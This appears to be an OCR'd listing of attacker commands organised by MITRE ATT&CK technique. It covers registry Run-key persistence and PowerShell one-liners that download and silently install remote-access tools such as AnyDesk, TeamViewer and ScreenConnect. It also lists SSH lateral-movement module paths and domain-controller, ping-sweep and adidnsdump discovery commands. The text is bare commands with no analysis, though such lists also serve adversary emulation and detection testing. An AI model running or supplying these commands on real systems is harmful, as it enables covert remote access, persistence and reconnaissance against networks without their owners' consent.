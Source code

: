 * HKLM\Software\Microsoft\Windows\CurrentVersion\Run
* cmd.exe reg (query|add)
* HKCU\Software\Microsoft\Windows\CurrentVersion\Run
* cmd.exe reg (query|add)
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
* cmd.exe reg (query|add)
* HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
* cmd.exe reg (query|add)
* HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
* cmd.exe reg (query|add)
##T1108: Redundant Access
##T1620: Reflective Code Loading
##T1219: Remote Access Software
* Invoke-WebRequest -OutFile C:\Users\$env:username\Downloads\GoToAssist.exe "https://launch.getgo.com/launcher2/helper?token=e0-FaCddxmtMoX8_cY4czssnTeGvy83ihp8CLREfvwQshiBW0_RcbdoaEp8IA-Qn8wpbKlpGIflS-39gW6RuWRM-XHwtkRVMLBsp5RSKp-a3PBM-Pb1Fliy73EDgoaxr-q83WtXbLKqD7-u3cfDl9gKsymmhdkTGsXcDXir90NqKj92LsN_KpyYwV06lIxsdRekhNZjNwhkWrBa_hG8RQJqWSGk6tkZLVMuMufmn37eC2Cqqiwq5bCGnH5dYiSUUsklSedRLjh4N46qPYT1bAU0qD25ZPr-Kvf4Kzu9bT02q3Yntj02ZA99TxL2-SKzgryizoopBPg4Ilfo5t78UxKTYeEwo4etQECfkCRvenkTRlIHmowdbd88zz7NiccXnbHJZehgs6_-JSVjQIdPTXZbF9T5z44mi4BQYMtZAS3DE86F0C3D4Tcd7fa5F6Ve8rQWt7pvqFCYyiJAailslxOw0LsGyFokoy65tMF980ReP8zhVcTKYP8s8mhGXihUQJQPNk20Sw&downloadTrigger=restart&renameFile=1"
$file1 = "C:\Users\" + $env:username + "\Downloads\GoToAssist.exe"
Start-Process $file1 /S;
* Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Start-Process $file1 /S;
* Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\LogMeInIgnition.msi https://secure.logmein.com/LogMeInIgnition.msi
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Start-Process $file1 /S;
Start-Process 'C:\Program Files (x86)\LogMeInIgnition\LMIIgnition.exe' "/S"
* Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\TeamViewer_Setup.exe https://download.teamviewer.com/download/TeamViewer_Setup.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Start-Process $file1 /S;
Start-Process 'C:\Program Files (x86)\TeamViewer\TeamViewer.exe'
* $installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi"
Invoke-WebRequest -OutFile $installer "https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_21.11.4237.7885_Release.msi"
msiexec /i $installer /qn
* powercmd.exe /c/management/vnc
* python/management/osx/screen_sharing
##T1563: Remote Service Session Hijacking
##T1021: Remote Services
* python/lateral_movement/multi/ssh_command
* python/lateral_movement/multi/ssh_launcher
##T1018: Remote System Discovery
* net group "Domain Computers" /domain
* net group "Domain Computers" /domain[:DOMAIN]
* net group "Domain Controllers" /domain[:DOMAIN]
* net group "Domain Controllers" /domain
* nltest /dclist[:domain]
* cmd.exe /c echo %LOGONSERVER%
* echo %LOGONSERVER%
* nltest.exe /dclist:domain.local
* for ip in $(seq #{start_host} 254); do ping -c 1 #{subnet}.$ip; [ $? -eq 0 ] && echo "#{subnet}.$ip UP" || : ; done
* for ip in $(seq #{start_host} #{stop_host}); do ping -c 1 192.168.1.$ip; [ $? -eq 0 ] && echo "192.168.1.$ip UP" || : ; done
* net group "Domain Computers" /domain
* adidnsdump -u #{user_name} -p password --print-zones #{host_name}
* for /l %i in (1,1,254) do ping -n 1 -w 100 192.168.1.%i
* adidnsdump -u domain\user -p #{acct_pass} --print-zones #{host_name}
* adidnsdump -u #{user_name} -p #{acct_pass} --print-zones 192.168.1.1